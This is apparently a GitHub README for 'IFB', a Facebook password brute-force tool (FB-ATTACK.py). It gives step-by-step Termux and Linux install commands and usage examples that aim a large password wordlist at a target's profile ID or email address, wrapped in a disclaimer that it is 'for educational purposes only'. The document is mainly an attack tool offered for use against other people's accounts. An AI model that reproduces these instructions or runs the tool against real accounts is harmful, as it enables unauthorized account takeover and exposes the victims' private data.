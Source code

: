 # IFB
## Warning🚨:

**⚠️Misuse of information on this website/tool may result in criminal charges against the individuals concerned.  The authors and WHITEDH4CKER will not be held responsible in case any criminal charges are filed against any person misusing the information on the website/tool. This website/tool is designed for educational purposes only.⚠️**

***

## INSTALLATION:
### For Termux
> **👉Termux version from Play Store is not supported since 2019, please use the latest version from F-Droid Store!Download Now:📥 https://f-droid.org/packages/com.termux/**

### [📸 Watch video](COMMING SOON)

#### ➡️ Type the following commands To use FB-BRUTEFORCE in Termux:

```shell script
apt update && apt upgrade -y
```

```shell script
pkg install git -y
```

```shell script
pkg install python3 -y
```

```shell script
pip install mechanize
```

```shell script
pip install colorama termcolor requests
```

```shell script
git clone https://github.com/rjshamim/IFB.git
```

```shell script
cd IFB
```

```shell script
python3 FB-ATTACK.py
```
***

### For Linux:
#### ➡️ Type the following commands To use FB-BRUTEFORCE in linux:

```shell script
sudo apt update && sudo apt upgrade
```

```shell script
sudo apt install python3-pip
```

```shell script
pip install colorama termcolor requests
```

```shell script
pip install mechanize
```

```shell script
git clone https://github.com/rjshamim/IFB.git
```

```shell script
cd IFB
```

```shell script
python3 FB-ATTACK.py
```
## Usage
   ```
          Usage: python3 FB-ATTACK.py -t "target_id" -w "wordlist_location"
Examples:
     |-------->
     | python3 FB-ATTACK.py -g https://facebook.com/target_profile_url_for_get_id
     |-------->
     | python3 FB-ATTACK.py -t 100001013078780 -w 10MPASS.txt
     |-------->
     | python3 FB-ATTACK.py -t target@gmail.com -w 10MPASS.txt
     |-------->
     |python3 FB-ATTACK.py -t target@gmail.com -s checkpassword
     |-------->
```
## License
This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## 👤My Account For Support👤:

